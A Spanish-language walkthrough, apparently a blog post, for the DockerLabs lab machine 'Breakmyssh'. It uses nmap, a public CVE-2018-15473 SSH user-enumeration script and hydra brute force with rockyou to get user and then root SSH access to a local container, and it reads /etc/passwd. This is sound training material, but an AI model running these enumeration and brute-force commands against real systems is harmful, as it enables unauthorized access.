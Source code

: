 ```yaml
---
layout: post
title: "Breakmyssh"
date: 2024-07-15 11:05:23
category: dockerlabs
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Breakmyssh </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/breakmyssh/host.png){:.margin}

**1\.** Escaneando los puertos de la maquina objetivo, solo esta disponible el ssh.

`sudo nmap -open- --open -T5 --min-rate=5000 -sCV -sS -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/breakmyssh/nmap.png){:.margin}

**2\.** Ya que no tenemos nada mas, buscando como enumerar usuarios de ssh, encuentro un [CVE-2018-15473](https://github.com/Sait-Nuri/CVE-2018-15473).

`git clone -q https://github.com/Sait-Nuri/CVE-2018-15473`

`cd CVE-2018-15473`

`python3 CVE-2018-15473.py 172.17.0.2 -w /usr/share/wordlists/rockyou.txt | grep -v "invalid"`

![img](/notas/public/img/dockerlabs/breakmyssh/cvepy.png){:.margin}

**3\.** Teniendo el usuario ahora bruteforceo la contraseña con hydra.

`hydra -l lovely -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

![img](/notas/public/img/dockerlabs/breakmyssh/hydra.png){:.margin}

**4\.** Me conecto por ssh con las credenciales obtenidas.

`ssh lovely@172.17.0.2`

![img](/notas/public/img/dockerlabs/breakmyssh/sshlovely.png){:.margin}

**5\.** No encontre nada para poder escalar, viendo el passwd solo tengo el usuario root.

`cat /etc/passwd | grep sh$`

![img](/notas/public/img/dockerlabs/breakmyssh/catpasswd.png){:.margin}

**6\.** Fuerza bruta a la contraseña de root con hydra.

`hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

![img](/notas/public/img/dockerlabs/breakmyssh/hydraroot.png){:.margin}

**7\.** Solo nos queda conectarnos por ssh como root.

`ssh root@172.17.0.2`

![img](/notas/public/img/dockerlabs/breakmyssh/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>